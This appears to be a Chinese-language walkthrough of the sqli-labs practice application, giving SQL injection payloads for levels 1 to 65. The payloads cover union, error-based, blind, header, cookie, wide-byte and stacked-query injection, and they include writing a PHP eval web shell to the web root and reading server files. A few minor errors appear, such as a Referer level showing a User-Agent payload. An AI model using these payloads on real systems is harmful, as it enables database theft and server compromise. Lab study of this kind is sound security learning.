






- [less1](#lv1)
- [less2](#lv2)
- [less3](#lv3)
- [less4](#lv4)
- [less5](#lv5)
- [less6](#lv6)
- [less7](#lv7)
- [less8](#lv8)
- [less9](#lv9)
- [less10](#lv10)
- [less11](#lv11)
- [less12](#lv12)
- [less13](#lv13)
- [less14](#lv14)
- [less15](#lv15)
- [less16](#lv16)
- [less17](#lv17)
- [less18](#lv18)
- [less19](#lv19)
- [less20](#lv20)
- [less21](#lv21)
- [less22](#lv22)
- [less23](#lv23)
- [less24](#lv24)
- [less25](#lv25)
- [less26](#lv26)
- [less27](#lv27)
- [less28](#lv28)
- [less29](#lv29)
- [less30](#lv30)
- [less31](#lv31)
- [less32](#lv32)
- [less33](#lv33)
- [less34](#lv34)
- [less35](#lv35)
- [less36](#lv36)
- [less37](#lv37)
- [less38](#lv38)
- [less39](#lv39)
- [less40](#lv40)
- [less41](#lv41)
- [less42](#lv42)
- [less43](#lv43)
- [less44](#lv44)
- [less45](#lv45)
- [less46](#lv46)
- [less47](#lv47)
- [less48](#lv48)
- [less49](#lv49)
- [less50](#lv50)
- [less51](#lv51)
- [less52](#lv52)
- [less53](#lv53)
- [less54](#lv54)
- [less55](#lv55)
- [less56](#lv56)
- [less57](#lv57)
- [less58](#lv58)
- [less59](#lv59)
- [less60](#lv60)
- [less61](#lv61)
- [less62](#lv62)
- [less63](#lv63)
- [less64](#lv64)
- [less65](#lv65)
# lv1
根据尝试，查询语句应该是的这样
> select * from users where id ='$a'
- 字符型注入
> 1' order by 3--+
- 有三列
> -1' union select 1,database(),3--+
- 查询当前使用数据库
> -1' union select 1,2,group_concat(schema_name) from information_schema.schemata--+
- 查看当前使用的所有数据库
> -1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'--+
- 查看指定数据库里的所有表名
> -1' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users'--+
- 查看列名
> -1' union select 1,2,group_concat(concat_ws(0x7e,username,password)) from security.users--+
- 查看用户名和密码
# lv2
- 根据尝试，查询语句可能是这样
> select * from users where id =$a
- 数字型注入，只需
>  1 order by 3--+
- 判断出三列
> -1 union select 1,2,database()--+
- 查询当前使用数据库
> -1 union select 1,2,database()--+
# lv3
- 闭合方式不一样，此题分析应该是
> select * from users where id =('$a')
- 所以此题闭合方式应为
> 1') order by 3--+
- 查询当前使用数据库
> -1') union select 1,2,database()--+
# lv4
- 本题闭合方式根据尝试应该是的如下
> select * from users where id =("$a")
- 所以本题闭合方式应该是这样
> 1") order by 3--+
- 查询当前使用数据库
> -1") union select 1,2,database()--+
# lv5
- 根据页面回显，本题是报错注入,查询存在页面回显you are in.....，查询不存在的则不会回显,，又根据尝试得到此题为字符型注入，因此构造查询语句
> 1' and length(database())=8--+
- 回显成功，得到当前使用数据库长度为8，接下来判断数据库每一位是多少
> 1' and ascii(substr(database(),1,1))=115--+
- 数据库第一位ascii码为115，为s
> 1' and ascii(substr(database(),1,1))=101--+
- 数据库第二位ascii码为101，为e，逐步判断可得到当前使用数据库为security，接下来查询当前数据库里有多少个表
> 1' and (select count(table_name) from information_schema.tables where table_schema=database())=4--+
- 可以得到有四个表，接下来爆每一个表的长度和名字
> 1' and length(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1))=6--+
- 第一个表长度为6
> 1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))=101--+
- 第一个表第一个字符ascii为101，为e
> 1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),2,1))=109--+
- 第一个表第二个字符ascii为109，为m，完整得到emails
> 1' and length(substr((select table_name from information_schema.tables where table_schema=database() limit 1,1),1))=8--+
- 第二个表长度为8
> 1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 1,1),1,1))=114--+
- 第二个表第一个字符ascii码为114，为r
> 1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 1,1),2,1))=114--+
- 第二个表第二个字符ascii码为114，为e
最后得到四个表


- 我们选择users列进行爆破,首先判断有多少列
> 1' and (select count(column_name) from information_schema.columns where table_name='users')=15--+
- users表一共有15列，接下来判断每一列长度
> 1' and length(substr((select column_name from information_schema.columns where table_name='users' limit 0,1),1))=7--+
- 第一列长度为7
> 1' and ascii(substr((select column_name from information_schema.columns where table_name='users' limit 0,1),1,1))=117--+
- 第一列第一个字符ascii码为117，为u
> 1' and ascii(substr((select column_name from information_schema.columns where table_name='users' limit 0,1),2,1))=115--+
- 第一列第二个字符ascii码为115，为s
>1' and length(substr((select column_name from information_schema.columns where table_name='users' limit 1,1),1))=10--+
- 第二列长度为10
> 1' and ascii(substr((select column_name from information_schema.columns where table_name='users' limit 1,1),1,1))=102--+
- 第二列第一个字符ascii码为102，为f
> 1' and ascii(substr((select column_name from information_schema.columns where table_name='users' limit 1,1),2,1))=105--+
- 第二列第二个字符ascii码为105，为i，最后爆得



- 接下来开始爆列里面的内容，首先先爆一下username列里面有多少个
> 1' and (select count(username) from security.users)=13--+
- 得到users列里面有13个内容,接下来开始判断每一个的长度
> 1' and length(substr((select username from security.users limit 0,1),1))=4--+
- 第一个用户名长度为4
> 1' and ascii(substr((select username from security.users limit 0,1),1,1))=68--+
- 第一个用户名第一个字符ascii为68，为D
> 1' and ascii(substr((select username from security.users limit 0,1),1,1))=117--+
- 第一个用户名第二个字符ascii为117，为u，完整为Dump
> 1' and ascii(substr((select username from security.users limit 1,1),1,1))=65--+
- 第二个用户名第一个字符ascii为56，为A
> 1' and ascii(substr((select username from security.users limit 1,1),2,1))=110--+
- 第二个用户第二个字符ascii为110，为n，完整爆得



# lv6
- 换成了双引号，其余与lv5一致
> 1" and length(database())=8--+
# lv7
- 页面提示文件写入，一句话木马
`1')) union select 1,2,'<?php @eval($_POST["qqqqq"]);?>' into outfile "C:\\phpStudy2018\\PHPTutorial\\WWW\\sql\\Less-7\\666.php"--+`
- mysql查询`show global variables like '%secure%';`,securefilepriv的值是否为NULL,null无法写入，空即可写入
- 不行的话在my.ini 加入`secure_file_priv=`,查看路径，发现已经写入
- 换成了'))闭合，其余与lv5一致
> 1')) and length(database())=8--+

读文件前提：

1、用户权限足够高，尽量具有root权限。

2、secure_file_priv不为NULL

SQL注入中的文件读写

以mysql为例

mysql读写文件有一个非常重要的前置条件：

show global variables like '%secure%'

查看mysql全局变量的配置，当输入以上命令后，结果

secure_file_priv = 空的时候 ，任意读写

secure_file_priv = 某个路径的时候，只能在规定的那个路径下读写

secure_file_priv = NULL 不能读写

要修改配置在数据库配置文件中修改
读：

load_file('filename') filename就是指定读取的文件

以sqlilab的第1关为例：

-1' union select ,1,(Select load_file('c:/phpstudy/www/1.txt')),3%23

读取1.txt里面的内容
写：

select 'content' into outfile 'filename' : 

content指的是我们要写的内容，filename是要保存的文件名

以sqlilab的第1关为例：

-1' union select 1,2,"?php@eval($_GET['test']);?" into outfile 'c:/phpstudy/www/test123.php' %23

把一句话木马写到/www/test123.php

读写的条件：

1、secure_file_priv 的值不能是null

2、要知道读写的绝对路径

Mysql文件读写函数

举例：select load_file(’/etc/hosts’)

上面的例子是有条件限制的：

1、必须有权限读取并且文件必须完全可读。
and (select count() from mysql.user)>0 /如果结果返回正常，说明具有读写权限./

and (select count() from mysql.user)>0 /* 返回错误，应该是管理员给数据库账户降权了*/

2、欲读取文件必须在服务器上

3、必须指定文件完整的路径

4、欲读取文件必须小于max_allowed_packet

　　如果该文件不存在，或因为上面的任一原因而不能被读出，函数返回空。比较难满足的就是权限。

在windows下，如果NTFS设置得当，是不能读取相关的文件的，当遇到administrators才能访问的文件，
users就不能
# lv8
- 经过尝试发现与lv5完全一致,单引号闭合
# lv9
- 无论怎么闭合都显示you are in，就只能用sleep函数了，经过尝试
> 1' and sleep(5)--+
- 有效，所以我们就可以构造查询语句
> 1' and if(length(database())=8,sleep(5),1)--+
# lv10
- 经过尝试
> 1“ and sleep(5)--+
- 有效，所以只需要双引号闭合，其余与lv9一样
> 1" and if(length(database())=8,sleep(5),1)--+
# lv11
- 跟第一题一样，只不过注入点在用户名和密码输入框，直接输入后点击登录即可
> ' order by 2#
- 有两列
> ' union select 1,database()#
- 获取当前使用数据库名称
# lv12
- 尝试闭合后报错，发现闭合


> ") order by 2#
- 有两列
> ") union select 1,database()#
- 获取当前使用数据库名称
# lv13
- 尝试闭合后报错，发现闭合方法


> ') order by 2#
- 有两列,首先updatexml修改函数，其次extractvalue查询函数
> ') and (select updatexml(1,concat('~',(select database())),1))#

> ') and updatexml(1,concat(1,(database())),1)#

> ') and (select updatexml(1,concat(1,(select group_concat(table_name) from information_schema.tables where table_schema=database())),1))#

> ') and (select updatexml(1,concat(1,(select group_concat(column_name) from information_schema.columns where table_name='users')),1))#

> ') and (select updatexml(1,concat(1,(select column_name from information_schema.columns where table_name='users' limit 0,1)),1))#

> ') and (select updatexml(1,concat(1,(select group_concat(username) from security.users)),1))#

> ') and (select updatexml(1,concat(1,(select username from security.users limit 0,1)),
- 接下来是利用extractvalue函数来进行报错注入
> ') and extractvalue(1,concat(0x7e,(select database())))#
> ') and extractvalue(1,concat(0x7e,(database())))#
- 利用报错注入获取当前使用数据库名称
> ') and extractvalue(1,concat(0x7e,(select table_name from information_schema.tables where table_schema=database() limit 0,1)))#
- 查询当前数据库的第一个数据表
> ') and extractvalue(1,concat(1,(select column_name from information_schema.columns where table_name='users' limit 0,1)))#
- 查询当前列的所有内容
> ') and extractvalue(1,concat(1,(select username from security.users limit 0,1)))#
- 查询当前列的第一个用户名
# lv14
- 发现双引号可以直接闭合
> " order by 2#
- 有两列，接下来跟lv13一样采用报错注入
# lv15
- 没有回显，尝试时间注入，发现'可以闭合，构造语句
> ' or sleep(5)#
> ' or if(length(database())=8,sleep(1),1)#
# lv16
- 尝试发现可以时间盲注
> ") or sleep(5)#
> ") or if (length(database())=8,sleep(5),1)#
# lv17
- 试了好久都不行，最后发现用户名admin和密码admin'都输入后页面会报错回显，那么久使用报错注入
> admin' and updatexml(1,concat(1,database()),1)#
# lv18
- 看见页面显示当前代理，尝试在User-Agent注入
> User-Agent:' and extractvalue(1,concat(1,(select database()))) and '
# lv19
- 报错显示referer，尝试在referer处注入
> User-Agent:' and extractvalue(1,concat(1,(select database()))) and '
# lv20
- 使用用户名admin密码admin登录后发现cookie变了，尝试cookie注入
> Cookie: uname=admin' and extractvalue(1,concat(1,(select database()))) and '1'='1;
# lv21
- 登录后查看cookie，发现是base64加密，解密后是admin，这里尝试发现闭合是'),构造语句
> ') union select 1,database(),3#
- 然后base64编码加密
> JykgdW5pb24gc2VsZWN0IDEsZGF0YWJhc2UoKSwzIw==
# lv22
- 跟lv21一样，只不过变成了")闭合
# lv23
- 过滤了--+还有#,所以需要另外构造语句
> -1' union select 1,(select group_concat(schema_name) from information_schema.schemata),3'
- 查询所有数据库
> -1' union select 1,database(),2'
- 查询当前使用数据库
# lv24
- 
# lv25
- 发现过滤了and和or，可以通过双写来绕过
> 1' oorderrder by 1 aandnd '1'='1
> -1' union select 1,database(),3 aandnd '1'='1
# lv26
- 过滤了and,or,/*,--,#,空格，斜杠,未完成，推断php版本不能解析，理论上来说可以利用%a0(回车)或者%00(空格)来代替
> 0'%a0union%a0select%a01,2,'3
# lv27
- 过滤了/*,--,#,空格,union,select,依旧不能解析，过滤了两遍select，一遍union，可以三写select，双写union来绕过
> 0'%a0ununionion%a0selselselectectect%a01,2,'3
# lv28
- 正则表达式过滤/union\s+select/i,说明不区分大小写只要是union+select就都过滤，还有过滤了/*,--,#,空格,暂时不知道如何绕过
# lv29
- 很奇怪没做任何过滤，，
> 0' union select 1,2,3--+


# lv30
- ?id=1&id=0' 回显正常
- ?id=1&id=0" 回显错误
> login.php?id=1&id=0" union seletc 1,database(),3--+
# lv31
- 同[lv30](#lv30),只不过闭合方式变了
> login.php?id=1&id=0") union select 1,2,database()--+
# lv32
- 宽字节注入，需要加%df,显示在?id=和'之间多了个\
> ?id=0%df' union select 1,2,database()--+
# lv33
- 跟32题一摸一样。。。
# lv34
- burp抓包，然后随便输入，username宽字节注入
> %df' order by 2--+
> %df' union select 1,database()--+
# lv35
- 数字型注入没做任何过滤
> 0 union select 1,2,database()--+
# lv36
- 查看源码
```
function check_quotes($string)
{
    $string= mysql_real_escape_string($string);    
    return $string;
}
```
- mysql_real_escape_string() 函数转义 SQL 语句中使用的字符串中的特殊字符。
下列字符受影响：
- \x00
- \n
- \r
- \
- '
- "
- \x1a
- 如果成功，则该函数返回被转义的字符串。如果失败，则返回 false。
但是因mysql我们并没有设置成gbk，所以mysql_real_escape_string()依旧能够被突破。方法和上述是一样的。
> ?id=0%df%27 union select 1,2,database()--+
# lv37
- burp抓包，uname=%df' union select 1,database()--+
# lv38
- 没有任何过滤
> 0' union select 1,database(),2--+
# lv39
- 没有任何过滤
> 0 union select 1,database(),2--+
# lv40
- 不显示错误，所以我们一个个尝试
> 1'--+不显示
> 1"--+不显示
> 1')--+显示
- 所以判断闭合方式是')
> 0') union select 1,database(),3--+
# lv41
- 没做任何过滤
> 0 union select 1,database(),3--+
# lv42
- 尝试注入，发现username没有注入点，尝试password，发现admin'会报错，可以尝试报错注入
> admin' or updatexml(1,concat(1,database()),1)--+


# lv43
- 查看源码，发现闭合方式为')
> admin') or updatexml(1,concat(1,database()),1)#
# lv44
- 查看源码发现闭合方式为',但是因为是盲注无任何返回信息，所以本关采用堆叠注入，插入信息
注入点为password
> admin';insert into users(id,username,password)values('14','666','666')--+
- 查看数据库，发现信息已经插入表中，随后登录即可
- 也可以使用时间盲注
> ' or if(length(database())=8,sleep(0.5),1)--+
# lv45
- 查看源码，发现闭合方式'),可以使用时间盲注
> ') or if(length(database())=8,sleep(0.5),1)--+
- 同样可以堆叠注入
> ');insert into users(id,username,password)values('14','666','666')--+
> ');delete from users where id=('101')--+
# lv46
- 排序注入，不可以使用union查询，但是可以使用报错注入
> sort=0 or或者1 and updatexml(1,concat(1,database()),1)--+
# lv47
- 闭合方式为',其余同[lv46](#lv46)
> sort=0' or updatexml(1,concat(1,database()),1)--+
# lv48
- 时间盲注
> sort=1 and if(length(database())=8,sleep(0.2),1)--+
# lv49
- 时间盲注，闭合方式不同
> sort=1' and if(length(database())=8,sleep(0.2),1)--+
# lv50
- 报错注入
> ?sort=0 or updatexml(1,concat(1,database()),1)--+
# lv51
- 闭合方式不一样
> ?sort=0' or updatexml(1,concat(1,database()),1)--+
# lv52
- 时间盲注
> 1 and sleep(0.2)--+
# lv53
- 时间盲注
> 1' and sleep(0.2)--+
# lv54
- 联合查询
> 0' union select 1,database(),3--+
# lv55
- 联合查询
> 0) union select 1,database(),3--+
# lv56
- 联合查询
> 0') union select 1,database(),3--+
# lv57
- 联合查询
> 0" union select 1,database(),3--+
# lv58
- 报错注入
> 0' or updatexml(1,concat(1,(select group_concat(schema_name) from information_schema.schemata limit 0,1)),1)--+
# lv59
- 报错注入
> 0 or updatexml(1,concat(1,(select group_concat(schema_name) from information_schema.schemata limit 0,1)),1)--+
# lv60
> 查看源码，闭合方式，构造
- > 0'") or updatexml(1,concat(1,(select group_concat(schema_name) from information_schema.schemata limit 0,1)),1)--+
# lv61
- 还是报错注入
> 0')) or updatexml(1,concat(1,(select group_concat(schema_name) from information_schema.schemata limit 0,1)),1)--+
# lv62
- 可以时间盲注
> 1') and sleep(5)--+
# lv63
- 时间盲注
> 1' and sleep(5)--+
# lv64
- 时间盲注
> 1)) and sleep(5)--+
# lv65
- 时间盲注，查看源码
```
$id = '"'.$id.'"';
			// Querry DB to get the correct output
			$sql="SELECT * FROM security.users WHERE id=($id) LIMIT 0,1";
```
- 按理来说闭合方式应该为'"'),但是实际测试为")
> 1") and sleep(5)--+